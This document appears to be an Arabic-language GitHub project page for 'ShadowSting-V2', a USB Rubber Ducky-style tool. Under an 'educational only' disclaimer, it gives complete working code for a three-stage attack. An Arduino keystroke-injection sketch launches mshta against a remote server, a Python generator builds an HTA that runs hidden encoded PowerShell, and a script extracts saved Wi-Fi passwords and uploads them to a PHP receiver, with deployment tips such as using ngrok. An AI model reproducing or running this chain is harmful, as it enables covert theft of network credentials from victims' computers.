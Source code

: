 📁 ShadowSting-V2

📌 الوصف: ShadowSting-V2 هو مشروع تجريبي لأداة على نمط USB Rubber Ducky تقوم بتنفيذ هجوم من 3 مراحل:

HID بسيط ينفذ أمر mshta مخفي

تحميل وتشغيل HTA من سيرفر خارجي

تنفيذ PowerShell مشفر يرسل البيانات الحساسة


⚠️ المشروع لأغراض تعليمية فقط. لا تستخدمه ضد أي نظام لا تملكه.


---

📂 ملفات المشروع:

1. stage1_hid.ino → كود Arduino (Pro Micro)


2. generator/hta_generator.py → مولد launch.hta من سكربت PowerShell


3. payloads/wifi_stealer.ps1 → سكربت PowerShell (Stage 3)


4. server/receiver.php → ملف PHP يستقبل البيانات


5. README.md → شرح المشروع بالكامل




---

🧠 الخطوات:

1. Stage 1 - كود HID (Arduino)

#include <Keyboard.h>

void setup() {
  delay(1000);
  Keyboard.begin();

  Keyboard.press(KEY_LEFT_GUI);
  Keyboard.press('r');
  delay(200);
  Keyboard.releaseAll();
  delay(500);

  Keyboard.print("mshta http://YOUR-SERVER/launch.hta");
  Keyboard.press(KEY_RETURN);
  Keyboard.releaseAll();

  Keyboard.end();
}

void loop() {}

2. Stage 2 - launch.hta (مولد تلقائي)

# generator/hta_generator.py
ps_script = open("../payloads/wifi_stealer.ps1", "r").read()
import base64
b64 = base64.b64encode(ps_script.encode()).decode()
hta = f"""
<script>
var s = new ActiveXObject("WScript.Shell");
s.Run("powershell -w hidden -ep bypass -EncodedCommand {b64}", 0);
</script>
"""
open("../server/launch.hta", "w").write(hta)
print("HTA generated.")

3. Stage 3 - PowerShell (wifi_stealer.ps1)

$profiles = netsh wlan show profiles
$output = foreach ($p in ($profiles -split "\n")) {
 if ($p -match "All User Profile") {
   $n = ($p -split ":")[1].Trim()
   netsh wlan show profile name=\"$n\" key=clear
 }
}
$output | Out-File "$env:TEMP\\loot.txt"
Invoke-WebRequest -Uri "http://YOUR-SERVER/receiver.php" -Method POST -InFile "$env:TEMP\\loot.txt"
Remove-Item "$env:TEMP\\loot.txt"

4. Server Side - receiver.php

<?php
file_put_contents("loot.txt", file_get_contents("php://input"));
?>


---

✅ ملاحظات:

استبدل YOUR-SERVER بـ IP أو رابط ngrok

احرص على تشغيل سيرفر محلي أو على VPS

لا تشغل الملفات على جهازك مباشرة



---


